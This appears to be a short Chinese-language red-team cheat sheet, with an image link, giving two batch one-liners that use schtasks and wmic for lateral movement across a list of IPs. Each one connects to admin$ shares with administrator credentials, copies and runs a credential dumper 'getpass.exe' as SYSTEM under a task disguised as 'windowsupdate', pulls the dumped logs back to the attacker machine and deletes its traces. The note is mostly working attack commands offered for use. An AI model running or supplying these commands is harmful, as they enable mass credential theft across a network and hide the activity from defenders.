 #### Schtasks
	把IP列表放入ip.txt文件中，通过一个账户密码批量net use与列表里的IP建立连接，如果建立连接没出错的话，复制getpass到目录temp目录，使用账户密码远程创建计划任务名字为windowsupdate，指定每日00：00以system权限执行getpass文件，创建完计划任务后，/tn是立刻执行此计划任务，执行完后删除此计划任务，ping -n 10>nul是程序停留，相当于延时10秒，之后复制文件到本地，接着删除getpass文件，删除创建的连接。
	>for /f %i in (ip.txt) do net use \\%i\admin$ /user:"administrator" "password" & if %errorlevel% equ 0 ( copy getpass.exe \\%i\admin$\temp\ /Y ) & schtasks /create /s "%i" /u "administrator" /p "password" /RL HIGHEST /F /tn "windowsupdate" /tr "c:\windows\temp\getpass.exe" /sc DAILY /mo 1 /ST 00:00 /RU SYSTEM & schtasks /run /tn windowsupdate /s "%i" /U "administrator" /P "password" & schtasks /delete /F /tn windowsupdate /s "%i" /U " administrator" /P "password" & @ping 127.0.0.1 -n 10 >nul & move \\%i\admin$\temp\dumps.logs C:\Users\Public\%i.logs & del \\%i\admin$\debug\getpass.exe /F & net use \\%i\admin$ /del
#### Wmic
	>for /f %i in (ip.txt) do net use \\%i\admin$ /user:"administrator" "password" & if %errorlevel% equ 0 ( copy getpass.exe \\%i\admin$\temp\ /Y ) & wmic /NODE:"%i" /user:"administrator" /password:"password" PROCESS call create "c:\windows\temp\getpass.exe" & @ping 127.0.0.1 -n 10 >nul & move \\%i\admin$\temp\dumps.logs C:\Users\Public\%i.logs & del \\%i\admin$\temp\getpass.exe /F & net use \\%i\admin$ /del